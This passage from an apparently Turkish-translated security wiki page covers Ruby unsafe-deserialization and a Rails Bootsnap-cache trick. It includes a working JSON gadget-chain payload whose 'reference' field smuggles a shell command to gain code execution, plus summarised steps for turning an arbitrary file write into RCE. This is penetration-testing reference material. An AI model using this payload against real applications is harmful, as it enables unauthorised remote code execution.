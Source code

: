 ```json
"path": "/",
"user": "anyuser",
"password": "anypw"
}
```
Ayrıca, önceki teknikle sistemde bir klasörün de oluşturulduğu tespit edildi; bu, bunu tam bir RCE'ye dönüştürmek için başka bir gadget'ı suistimal etmek adına bir gerekliliktir; örneğin:
```json
{
"^o": "Gem::Resolver::SpecSpecification",
"spec": {
"^o": "Gem::Resolver::GitSpecification",
"source": {
"^o": "Gem::Source::Git",
"git": "zip",
"reference": "-TmTT=\"$(id>/tmp/anyexec)\"",
"root_dir": "/tmp",
"repository": "anyrepo",
"name": "anyname"
},
"spec": {
"^o": "Gem::Resolver::Specification",
"name": "name",
"dependencies": []
}
}
}
```
Check for more details in the [**original post**](https://github.blog/security/vulnerability-research/execute-commands-by-sending-json-learn-how-unsafe-deserialization-vulnerabilities-work-in-ruby-projects/?utm_source=pocket_shared).

### Bootstrap Önbellekleme

Not really a desearilization vuln but a nice trick to abuse bootstrap caching to to get RCE from a rails application with an arbitrary file write (find the complete [original post in here](https://blog.convisoappsec.com/en/from-arbitrary-file-write-to-rce-in-restricted-rails-apps/)).

Aşağıda Bootsnap önbelleklemesini suistimal ederek arbitrary file write zafiyetini exploit etme konusunda makalede detaylandırılan adımların kısa bir özeti bulunmaktadır:

- Zafiyeti ve Ortamı Belirleyin

Rails uygulamasının dosya yükleme fonksiyonu bir saldırganın dosyaları arbitrary olarak yazmasına izin veriyor. Uygulama kısıtlamalarla çalışsa bile (Docker’ın non-root kullanıcısı nedeniyle sadece tmp gibi belirli dizinler yazılabilir), bu yine de Bootsnap cache dizinine yazmayı (genellikle tmp/cache/bootsnap altında) mümkün kılar.

- Bootsnap’in Önbellek Mekanizmasını Anlayın

Bootsnap, Rails’in başlatma sürelerini kısaltmak için derlenmiş Ruby kodu, YAML ve JSON dosyalarını cache’ler. Cache dosyaları, bir cache key header’ı (Ruby versiyonu, dosya boyutu, mtime, compile options vb. alanları içeren) ve ardından derlenmiş kodu içerir. Bu header, uygulama başlatılırken cache’in doğrulanması için kullanılır.
